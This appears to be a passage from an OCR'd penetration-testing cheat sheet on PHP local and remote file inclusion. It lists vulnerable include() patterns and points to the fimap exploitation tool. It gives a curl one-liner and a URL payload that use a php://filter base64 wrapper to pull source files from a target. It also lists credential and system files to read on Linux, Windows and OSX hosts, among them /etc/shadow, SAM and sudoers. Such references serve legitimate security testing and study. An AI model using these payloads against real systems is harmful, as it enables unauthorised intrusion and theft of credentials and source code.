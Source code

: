 -   File Inclusion Vulnerabilities
    -----------------------------------------------------------------------------------------------------------------------------

    -   Local (LFI) and remote (RFI) file inclusion vulnerabilities are
        commonly found in poorly written PHP code.

    -   fimap - There is a Python tool called fimap which can be
        leveraged to automate the exploitation of LFI/RFI
        vulnerabilities that are found in PHP (sqlmap for LFI):
        [*https://github.com/kurobeats/fimap*](https://github.com/kurobeats/fimap)

        -   Gaining a shell from phpinfo()
            fimap + phpinfo() Exploit - If a phpinfo() file is present,
            it’s usually possible to get a shell, if you don’t know the
            location of the phpinfo file fimap can probe for it, or you
            could use a tool like OWASP DirBuster.

    -   For Local File Inclusions look for the include() function in PHP
        code.
        include("lang/".$\_COOKIE\['lang'\]);
        include($\_GET\['page'\].".php");

    -   LFI - Encode and Decode a file using base64
        curl -s
        http://$ip/?page=php://filter/convert.base64-encode/resource=index
        | grep -e '\[^\\ \]\\{40,\\}' | base64 -d

    -   LFI - Download file with base 64 encoding
        [*http://$ip/index.php?page=php://filter/convert.base64-encode/resource=admin.php*](about:blank)

    -   LFI Linux Files:
        /etc/issue
        /proc/version
        /etc/profile
        /etc/passwd
        /etc/passwd
        /etc/shadow
        /root/.bash\_history
        /var/log/dmessage
        /var/mail/root
        /var/spool/cron/crontabs/root

    -   LFI Windows Files:
        %SYSTEMROOT%\\repair\\system
        %SYSTEMROOT%\\repair\\SAM
        %SYSTEMROOT%\\repair\\SAM
        %WINDIR%\\win.ini
        %SYSTEMDRIVE%\\boot.ini
        %WINDIR%\\Panther\\sysprep.inf
        %WINDIR%\\system32\\config\\AppEvent.Evt

    -   LFI OSX Files:
        /etc/fstab
        /etc/master.passwd
        /etc/resolv.conf
        /etc/sudoers
        /etc/sysctl.conf

